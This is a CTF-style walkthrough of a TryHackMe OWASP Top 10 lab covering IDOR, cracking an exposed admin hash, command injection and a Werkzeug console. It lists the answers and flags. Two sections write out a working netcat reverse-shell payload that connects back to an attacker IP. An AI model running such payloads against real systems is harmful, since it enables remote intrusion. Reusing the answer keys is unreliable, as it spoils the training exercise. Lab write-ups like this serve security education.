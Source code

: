 # OWASP Top 10 - 2021

### Broken Access Control (IDOR Challenge)
- Look at other users' notes. What is the flag? <br />
Deploy the machine and go to http://IP_addr - Login with the username noot and the password test1234 <br />
Since we know this is an IDOR (Insecure Direct Object Reference) vulnerability, let's try to play with the URL: <br />
![image](https://github.com/user-attachments/assets/0f3fcfc2-75f7-450e-85bb-d5e39a775855) <br />
By using id=0, we have access to the flag: `flag{fivefourthree}`

### Cryptographic Failures (Challenge)
- Have a look around the web app. The developer has left themselves a note indicating that there is sensitive data in a specific directory. <br />
Go to http://IP_addr:81 and move to the login page<br />
![image](https://github.com/user-attachments/assets/4b133324-0c49-4fa2-bf78-08d166df2ba6) <br />
Now press CTRL+U to view the source code. There's something interesting: <br />
![image](https://github.com/user-attachments/assets/649e8bf0-d820-4d0a-8e70-d32047e42347) <br />
Now move to http://10.10.119.6:81/assets/ and download the `webapp.db` file. The file contains a "user" table, here's the content of it: <br />
![image](https://github.com/user-attachments/assets/8c9cdf0e-a137-4479-a2a6-04a172089bf3) <br />
Now use CrackStation to try and crack the admin password: <br />
![image](https://github.com/user-attachments/assets/1166d1ec-d3c4-4226-a182-28fd4a2bdbaf)<br />
- What is the name of the mentioned directory? `/assets`
- Navigate to the directory you found in question one. What file stands out as being likely to contain sensitive data? `webapp.db`
- Use the supporting material to access the sensitive data. What is the password hash of the admin user? `6eea9b7ef19179a06954edd0f6c05ceb`
- What is the admin's plaintext password? `qwertyuiop`
- Log in as the admin. What is the flag? `THM{Yzc2YjdkMjE5N2VjMzNhOTE3NjdiMjdl}`

### 3.1. Command Injection
To complete the questions below, navigate to http://10.10.119.6:82/ and exploit the cowsay server. <br />
Go to http://10.10.119.6:82. This web application is vulnerable to command injection. If we input $(whoami), it outputs "apache": <br />
![image](https://github.com/user-attachments/assets/ec5bedec-7581-4d7e-b877-fdda399b4894)<br />
Let's quickly get a reverse shell. Start listening on our machine with `nc -lnvp 4444`. The submit this payload to the application: `$(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.11.85.53 4444 >/tmp/f)`. This will give us a reverse shell: <br />
![image](https://github.com/user-attachments/assets/aff5a3e7-6551-4e25-b304-40b02cd77b5e)<br />
- What strange text file is in the website's root directory? `drpepper.txt`
- How many non-root/non-service/non-daemon users are there? `0`
- What user is this app running as? `apache`
- What is the user's shell set as? `/sbin/nologin`
- What version of Alpine Linux is running? `3.16.0`

### 4. Insecure Design
- What is the value of the flag in joseph's account? <br />
Little hint: green. <br />
`THM{Not_3ven_c4tz_c0uld_sav3_U!}`

### 5. Security Misconfiguration
Here we can execute system commands on the Werkzeug console, for example: <br />
![image](https://github.com/user-attachments/assets/1da359b5-7968-46d2-b54e-c2afab4aa9af)<br />
Let's spawn a reverse shell. Start a netcat listener on your machine: `nc -lnvp 4444` and, from the image above, instead of "ls -l", type `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.11.85.53 4444 >/tmp/f` and spawn a shell: <br />
![image](https://github.com/user-attachments/assets/d556ab1c-f012-4329-a9d6-f938a26fd930)<br />
- What is the database file name (the one with the .db extension) in the current directory? `todo.db`
- Modify the code to read the contents of the app.py file, which contains the application's source code. What is the value of the secret_flag variable in the source code?










